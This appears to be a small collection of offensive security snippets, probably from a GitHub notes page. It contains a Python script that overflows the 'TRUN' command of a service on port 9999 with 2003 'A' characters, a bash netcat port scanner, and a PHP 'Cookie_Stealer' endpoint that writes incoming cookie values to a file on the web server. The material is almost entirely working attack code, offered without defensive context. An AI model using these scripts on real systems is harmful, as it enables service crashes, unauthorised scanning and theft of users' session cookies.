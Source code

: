 ### Socket Buffer Overflow Script
```
#!/usr/bin/env python
import socket

buffer = "TRUN /.:/"
buffer += "A" * 2003
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.50.38.121", 9999))
print(s.recv(1024))
s.send(buffer)
print s.recv(1024)
s.close()
```
### Netcat TCP Scan (Singular IP)
```
#!/bin/bash
echo "Enter network address (e.g. 192.168.0.1): "
read net
echo "Enter ports space-delimited (e.g. 21-23 80): "
read ports
nc -nvzw1 $net $ports 2>&1 | grep -E 'succ|open'
```
## Cookie_Stealer1.php
 <?php
  2 $cookie = $_GET["username"];
  3 $steal = fopen("/var/www/html/cookiefile.txt", "a+");
  4 fwrite($steal, $cookie ."\n");
  5 fclose($steal);
  6 ?>
